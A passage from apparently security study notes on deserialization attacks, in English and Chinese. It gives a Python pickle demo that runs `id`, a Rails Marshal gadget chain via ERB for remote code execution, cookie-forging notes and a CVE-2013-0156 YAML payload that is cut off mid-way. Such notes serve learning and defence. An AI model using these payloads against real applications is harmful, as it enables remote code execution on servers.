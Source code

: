 b.py:

```python
import os
import cPickle
import sys
import base64

s = raw_input(":")

print cPickle.loads(base64.b64decode(s))
```

```
$ python a.py > tmp
$ cat tmp | python b.py
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),110(lxd)
```

## Ruby/Rails Marshal

this one is not self-executing

this one actually relies on rails invoking a method on the resulting object after the deserialization

```ruby
erb = ERB.allocate
erb.instance_variable_set :@src, "`id`"
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result, "foo", ActiveSupport::Deprecation
hash = {depr => 'something'}
marshalled = Marshal.dump(hash)
print marshalled
```

在ERB上，當result或run method被call時，@src的string會被執行

- 常見使用情境：
    - 以Marshal為Cookie Serializer時，若有`secret_key`，則可以偽造Cookie
    - 也可以透過`DeprecatedInstanceVariableProxy`去執行ERB的`result`來RCE
        - 當`DeprecatedInstanceVariableProxy`被unmarshal，rails session對他處理時遇到不認識的method就會呼叫`method_missing`，導致執行傳入的ERB
        - `@instance.__send__(@method)`

- Cookie Serializer
    - Rails 4.1以前的Cookie Serializer為Marshal
    - Rails 4.1開始，默認使用JSON

## Ruby/Rails YAML

- CVE-2013-0156
    - 舊版本的Rails中，`XML`的node可以自訂type，如果指定為`yaml`，是會被成功解析的
    - 若反序列化`!ruby/hash`，則相當於在物件上調用`obj[key]=val`，也就是`[]=`方法
    - 而這個`ActionDispatch::Routing::RouteSet::NamedRouteCollection`中的`[]=`方法中，有一條代碼路徑可以eval
    - `define_hash_access`中可以看到`module_eval`，裏頭的`selector`來自`name`
    - 因為他還會對`value`調用`defaults` method，所以可以利用`OpenStruct`來構造
        - `函數名=>返回值`的對應關係存放在`@table`中
    - Payload:
    ```ruby
    xml = %{  
    <?xml version="1.0" encoding="UTF-8"?>  
    <bingo type='yaml'>  
    ---| !ruby/hash:ActionDispatch::Routing::RouteSet::NamedRouteCollection  
    'test; sleep(10); test' :  
     !ruby/object:OpenStruct  